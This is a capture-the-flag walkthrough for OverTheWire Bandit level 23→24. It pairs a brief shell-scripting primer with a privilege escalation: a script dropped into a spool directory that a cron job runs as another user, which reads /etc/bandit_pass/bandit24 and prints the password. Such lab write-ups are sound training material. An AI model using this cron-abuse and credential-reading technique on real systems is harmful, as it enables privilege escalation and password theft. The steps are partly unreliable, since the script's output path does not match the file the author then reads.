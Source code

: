 <h1 align="center">
Bandit Level 23 → Level 24
</h1>

<p align="center">
  <a href="#Level-Goal">Level Goal</a>   |   
  <a href="#Commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</a>   |  
  <a href="#Lets-have-fun">Let's try</a>   |
  <a href="#Lets-try">Let's try</a>   |
  <a href="#Solution">Solution</a> 
</p>

## Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

- NOTE:<br/> This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

- NOTE 2:<br/> Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands you may need to solve this level:
| command | Explanation |
| ------|-----|
| cron | Explanation |
| crontab | opens the cron table for editing  |


## Lest's hae fun
Look, they said we'll write the script this time.. that's cool.. looks like we're going to have a lot of fun
Well, we have already learned the basics of Shell.. Now let's learn how to write a Shell script

# General principles of shell scripting

A shell script is a series of commands. we have already manipulated the shell on the command line, so we can start our first scripts.

- comments

Almost all computer languages allow the insertion of comments. To do this, simply precede each comment line with the character “#”.
````
#this is a comment
````

 - condition
The shell offers two main ways to perform a test
````
test expression
[expression]
````

- The if condition
````

if condition 
 then commands
elif condition
 then commands
else commands 
fi
````

- The case condition
````
case string in
  pattern) commands ;;
  pattern) commands ;;
esac
````

- The while loop
````
while
  do commands
done
````

- The for loop
````
for var in list of strings
do commands
done
````


## Let's try
 
- First, let's follow the steps of the previous level to see what we have inside the file cronjob_bandit24

````
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit17_root  cronjob_bandit22  cronjob_bandit23  cronjob_bandit24  cronjob_bandit25_root
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

````

- It looks like it will send us as before to the shell script with the same file name.. well, we have learned shellscript in previous levels and understand its basics, so let's try to analyze the script in front of us
````
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
````
From this script, we know that every file in the /var/spool/$myname path will be executed once and deleted after 60 seconds. and according to the previous levels, we know that we can create a directory under /tmp to perform our activities. Therefore, we will exploit this to create our own script to fetch the password from /etc/bandit_pass/bandit24 and store it in another temporary file. 

We don't have permissions to read the password directly, so we use this method.. because user 24 is the one who controls the given script so he can execute the file where the password is "/etc/ bandit_pass/bandit24".
We therefore need to write a script that allows us to execute the required file and convert its output into a new file in the /tmp directory, to be able to find our password. The most important thing now is to make good use of permissions. let's try 
````
bandit23@bandit:~$ mkdir /tmp/pswd
bandit23@bandit:~$ chmod 777 /tmp/pswd
bandit23@bandit:~$ cd /tmp/pswd
bandit23@bandit:/tmp/pswd$ vim pswd.sh
````
After preparing the environement we can now creat our script
````
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/myname123/bandit24password
````
let's copy our script to /var/spool/bandit24/ and wait few moment to find our password file and read it

````
bandit23@bandit:/tmp/pswd$ chmod 777 pswd.sh
bandit23@bandit:/tmp/pswd$ cp pswd.sh /var/spool/bandit24/
bandit23@bandit:/tmp/pswd$ ls
password  pswd.sh
bandit23@bandit:/tmp/pswd$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
````
## Solution 
````
bandit23@bandit:~$ mkdir /tmp/pswd
bandit23@bandit:~$ chmod 777 /tmp/pswd
bandit23@bandit:~$ cd /tmp/pswd
bandit23@bandit:/tmp/pswd$ vim pswd.sh
bandit23@bandit:/tmp/pswd$ chmod 777 pswd.sh
bandit23@bandit:/tmp/pswd$ cp pswd.sh /var/spool/bandit24/
bandit23@bandit:/tmp/pswd$ ls
password  pswd.sh
bandit23@bandit:/tmp/pswd$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
````
we got it *-*

